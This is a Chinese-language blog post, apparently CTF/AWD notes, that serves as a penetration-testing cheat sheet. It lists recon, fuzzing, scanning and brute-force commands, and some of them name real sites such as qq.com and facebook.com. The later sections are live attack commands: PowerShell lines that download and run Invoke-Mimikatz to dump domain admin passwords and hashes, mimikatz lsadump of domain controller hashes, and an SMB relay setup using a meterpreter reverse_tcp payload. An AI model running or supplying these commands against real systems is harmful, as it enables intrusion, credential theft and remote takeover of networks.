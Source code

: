 ```yaml
---
layout: post
title: "渗透入侵常用工具"
date: 2019-07-18 17:12:09 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 信息搜集

#### 基本信息搜集

```
theharvester -d target.com -b bing,google -h -p
```

#### 后台查询

[Breacher](https://github.com/s0md3v/Breacher)：`python breacher.py -u example.com --type php`

[cangibrina](https://github.com/fnk0c/cangibrina)：`python cangibrina.py -u facebook.com --ext php`

#### 旁站查询

[Reverse IP Domain Check](https://www.yougetsignal.com/tools/web-sites-on-web-server/)

#### DNS查询

[who.is](https://who.is)

godaddy.com

[DNSdumpster](https://dnsdumpster.com/ )

```shell
whois xxx.edu.cn
dig +short xxx.edu.cn
dig -x 10.10.10.10
dnsrecon -d xxx.edu.cn
```

#### 子域名扫描器

[Find Subdomain](https://findsubdomains.com/)

###### [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)

```
D:\ctf\tools\gather\subDomainsBrute>python subDomainsBrute.py qq.com --full
```

#### FUZZ扫描器

###### [wfuzz](https://github.com/xmendez/wfuzz)

```powershell
C:\Users\tyler>wfuzz -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\extensions_common.txt --hc 404 http://testphp.vulnweb.com/FUZZ/FUZ2ZFUZ3Z #FUZZ url（FUZnZ，其中n代表了payload的序号）
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ #FUZZ参数
```

#### 密码字典

[fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

[SecLists](https://github.com/danielmiessler/SecLists)

社工密码字典生成工具[Cupp](https://github.com/Mebus/cupp)

爬行网站获取关键信息创建密码字典工具[cewl](http://digi.ninja/projects/cewl.php)

#### Web环境识别

```sh
$ whatweb -v xxx.edu.cn
```

#### 设备/服务组件搜索

国内：[钟馗之眼](https://www.zoomeye.org/)

国外：[撒旦](https://www.shodan.io)

#### 源码泄露

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```
#ignore SSL certification verification (with -s)
rip-git.pl -v -u http://www.example.com/.git/
rip-hg.pl -v -u http://www.example.com/.hg/
rip-bzr.pl -v -u http://www.example.com/.bzr/
rip-svn.pl -v -u http://www.example.com/.svn/
rip-cvs.pl -v -u http://www.example.com/CVS/
```

## 漏洞扫描

```shell
nikto -h xxx.edu.cn -output ./result.html -Format htm
/mnt/hgfs/ctf/tools/exploit/w3af/w3af_gui #https://github.com/andresriancho/w3af
xray webscan --basic-crawler "target.com" --text-output out.txt #https://github.com/chaitin/xray
```

#### WordPress漏洞扫描

```shell
wpscan --url target.com -e u --passwords /root/wordlist.txt -t 50
```

#### Structs2漏洞扫描

```
#https://github.com/Lucifer1993/struts-scan
python structs-scan.py http://target.com/struts2%2Dshowcase/actionChain.action #扫描
python structs-scan.py -u http://target.com -i struts2-048 #攻击
```

## 内网渗透

#### 域信息搜集

```powershell
>net user /domain #查询所有域用户
>net view /domain #查看有几个域
>net view /domain:XXX #查看域内的主机
>net group /domain #查看域里面的组
>net share #查看共享文件夹

>net group "domain computers" #domain：查看域内所有的主机名
>dsquery server #查询域控制器主机名
"CN=WIN-KMZ8MFWF5L8,CN=Servers,..."
>net group "domain controllers" /domain
WIN-KMZ8MFWF5L8$ #去掉结尾$符号
>ping WIN-KMZ8MFWF5L8 #查询域控制器IP
>net group "domain admins" /domain #查询域管理员用户名
```

#### 提取系统信息

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz DumpCerts #查询域管理员密码
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Get-PassHashes #查询域管理员密码hash

mimikatz log "privilege::debug" "lsadump::lsa /patch" #获取域控制器上所有用户的hash
```

#### [impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

###### [smbrelayx](https://blog.csdn.net/qq_36374896/article/details/84593467)

```sh
#run on attack vps
pip install impacket
nmap -sT -p 445 --open --script smb-security-mode.nse,smb-os-discovery.nse 192.168.91.0/24 #扫描未开启smb签名的机器:message_signing: disabled(dangerous, but default)
smbrelayx.py -h target_ip -c "calc.exe"

或者直接用MSF的smb_relay模块代替：
msfconsole
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set lhost attack_vps
set smbhost target_ip
run
#其他机器使用和target_ip相同权限访问攻击机，攻击机可以获取hash，并且触发目标机器执行命令
net use \\attack_vps/user:"Administrator" "ABCabc123"
```

